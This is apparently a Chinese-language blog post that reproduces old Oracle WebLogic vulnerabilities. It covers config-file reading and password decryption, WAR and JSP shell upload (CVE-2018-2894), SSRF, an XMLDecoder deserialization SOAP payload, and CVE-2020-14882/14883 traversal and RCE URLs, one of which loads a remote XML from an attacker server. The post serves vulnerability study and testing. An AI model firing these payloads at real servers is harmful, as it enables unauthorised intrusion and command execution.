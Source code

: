 ```yaml
---
layout:     post
title:      Weblogic 历史漏洞复现
subtitle:   简单复现一遍 ，防止在用的时候踩坑
date:       2021-02-09
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/82211753_p0.jpg
catalog: true
tags:
    - 框架漏洞
    - Java
---
```



### 文件读取漏洞->密码破解



读取weblogic的两个文件

1. security/SerializedSystemIni.dat
2. Config/config.xml

![image-20210202131753947](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131753947.png)

SerializedSystemIni.dat的全部内容

![image-20210202131807251](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131807251.png)



需要config.xml 的 node-manager-password-encrypted

![image-20210202131817455](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131817455.png)



![image-20210202131824728](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131824728.png)



解密 tool https://github.com/TideSec/Decrypt_Weblogic_Password （不一定能解密成功）

![image-20210202131830750](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131830750.png)



在文件读取中基于环境目录去读取

![image-20210202131837398](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131837398.png)

![image-20210202131843743](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131843743.png)





### 上传war包 getshell



类似tomcat

条件进入控制台 (知道用户名和密码)

http://127.0.0.1:7001/console



![image-20210202133958000](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202133958000.png)



![image-20210202142216850](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202142216850.png)



![image-20210202142346623](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202142346623.png)

### Weblogic 任意文件上传漏洞（CVE-2018-2894）

访问ws_utc/config.do （无需登录

但需要开起 Web 服务测试页 （实际应用少

将当前的工作目录改为如下

安装目录/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css



![image-20210202150416500](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150416500.png)



![image-20210202150543872](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150543872.png)

最后访问/ws_utc/css/config/keystore/1612249499610_jsp-shell.jsp

![image-20210202150700688](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150700688.png)



### Weblogic ssrf 

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001
```

只支持http协议 且存在crlf



![image-20210202190653874](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202190653874.png)



### Weblogic XMldecode 反序列化

**Weblogic < 10.3.6**

WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令

路径 /wls-wsat/CoordinatorPortType `Content-Type: text/xml`

payload 其他的类似 无回显 特殊字符需要实体编码

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/2333</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



![image-20210202203410595](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202203410595.png)



### weblogic 未授权访问 + rce 漏洞

参考 https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md

未授权访问为CVE-2020-14882

rce 为CVE-2020-14883



**未授权访问**

为二次url编码的../

```
http://ip/console/css/%252e%252e%252fconsole.portal
```

![image-20210209172606703](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210209172606703.png)



**rce**



方法一：

只能在Weblogic 12.2.1以上版本利用

```
http://ip/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

访问之后404

![image-20210209173247027](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210209173247027.png)





方法二：

对为修复漏洞的所有版本有效

将恶意xml 放在 受害机器能访问到的地方

payload的特殊字符需要实体编码

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后发送如下payload

```
http://ip/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://vpsip/rce.xml")
```

同样也会404
